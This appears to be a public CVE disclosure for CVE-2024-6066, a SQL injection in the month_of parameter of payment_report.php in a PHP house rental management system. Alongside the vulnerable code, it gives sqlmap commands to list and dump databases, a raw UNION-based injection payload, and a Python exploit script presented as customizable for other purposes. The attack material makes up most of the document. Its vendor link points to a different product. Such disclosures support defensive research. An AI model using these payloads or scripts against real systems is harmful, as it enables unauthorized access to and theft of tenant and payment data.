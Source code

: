 ```yaml
---
title: CVE-2024-6066
draft: false
tags:
  - cve
---
```

# SQL Injection Vulnerability at Sourcecodester House Rental Management System

> A vulnerability classified as critical has been found in SourceCodester Best House Rental Management System 1.0. Affected is an unknown function of the file payment_report.php. The manipulation of the argument month_of leads to sql injection. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. VDB-268794 is the identifier assigned to this vulnerability.

Official Website: https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html

Version: v1.0

route`:/payment_report.php?month_of=<payload>`

Related Code file: `payment_report.php`

Injection parameter: `month_of`
## Vulnerability Analysis

Vulnerable code:

```php
$payments = $conn->query("SELECT p.*, concat(t.lastname,', ',t.firstname,' ',t.middlename) as name, h.house_no FROM payments p INNER JOIN tenants t ON t.id = p.tenant_id INNER JOIN houses h ON h.id = t.house_id WHERE date_format(p.date_created,'%Y-%m') = '$month_of' ORDER BY unix_timestamp(date_created) ASC");
```

The part of this code that is vulnerable to SQL injection is the following SQL query, where the $month_of parameter is directly included in the SQL statement without any sanitization or use of prepared statements.
Because the `$month_of parameter is coming directly from user input ($_GET['month_of'])`. An attacker could manipulate this input to include malicious SQL code.

## Vulnerability Verification and Exploit
We can easily recreate this vulnerability using sqlmap as such:

Below is for basic sql injection testing:

`sqlmap 'http://172.16.76.1/rental/payment_report.php?month_of=2024-06' –batch`

![image](https://github.com/jadu101/CVE/assets/76433661/90efd07f-9db7-479e-a186-18d9a4316666)

Below is the payload that can be used to reproduce withouut sqlmap

```
month_of=2024-06' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b6b6271,0x7150726e686a6f7a51496176746f794e58766344546e746a77414663655079734a697847496f4557,0x716b7a6271),NULL-- -
```

Below is the command used to dump database list:

`sqlmap 'http://172.16.76.1/rental/payment_report.php?month_of=2024-06' --batch --dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/042e913b-ac47-4ecd-a41f-c40adc4dbfdb)

Below is the command used to dump data inside house_rental_latest database:

`sqlmap 'http://172.16.76.1/rental/payment_report.php?month_of=2024-06' --batch --dbs -D house_rental_latest --dump`

![image](https://github.com/jadu101/CVE/assets/76433661/464aa85e-990d-4247-9573-c0fb833b3208)


## Exploit Code

Below is the Python code that can be customized. 

For now it is listing the database on the system but could be modified for different purpose:

```python
# Exploit Title: SQL Injection Vulnerability at Sourcecodester House Rental Management System
# Date: 2024/06/18
# Exploit Author: jadu101
# Vendor Homepage: https://www.sourcecodester.com
# Software Link: https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html
# Version: 1.0 (REQUIRED)
# Tested on: Ubuntu
# CVE : CVE-2024-6066


import requests
from bs4 import BeautifulSoup

def extract_tenant_column(html_content):
    """
    Extracts the Tenant column data from the HTML content.
    """
    soup = BeautifulSoup(html_content, 'html.parser')
    tenants = []

    # Locate the table containing the report
    table = soup.find('table', {'class': 'table'})
    if not table:
        return tenants

    # Locate the headers to find the Tenant column index
    headers = table.find_all('th')
    tenant_index = -1
    for index, header in enumerate(headers):
        if 'Tenant' in header.text:
            tenant_index = index
            break

    if tenant_index == -1:
        return tenants

    # Extract the data from the Tenant column
    rows = table.find_all('tr')
    for row in rows:
        columns = row.find_all('td')
        if len(columns) > tenant_index:
            tenant_data = columns[tenant_index].text.strip()
            tenants.append(tenant_data)

    return tenants

# Define the base URL of the application (CHANGE HERE)
base_url = "http://127.0.0.1/rental/payment_report.php"

# Define the vulnerable parameter and the new payload to list the current database (CHANGE the PAYLOAD)
vulnerable_param = "month_of"
payload = "2024-06' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, DATABASE(), NULL-- -"

# Construct the URL with the payload
url = f"{base_url}?{vulnerable_param}={payload}"

# Make the GET request to the vulnerable URL
response = requests.get(url)

# Check if the response was successful
if response.status_code == 200:
    # Extract and print the Tenant column data
    tenant_column_data = extract_tenant_column(response.text)
    if tenant_column_data:
        print("Output of SQL Query:")
        for tenant in tenant_column_data:
            print(tenant)
    else:
        print("SQL Injection unsuccessful. Recheck your Query")
else:
    print(f"Failed to retrieve the page. Status Code: {response.status_code}")
    print("Response Text:")
    print(response.text)
```




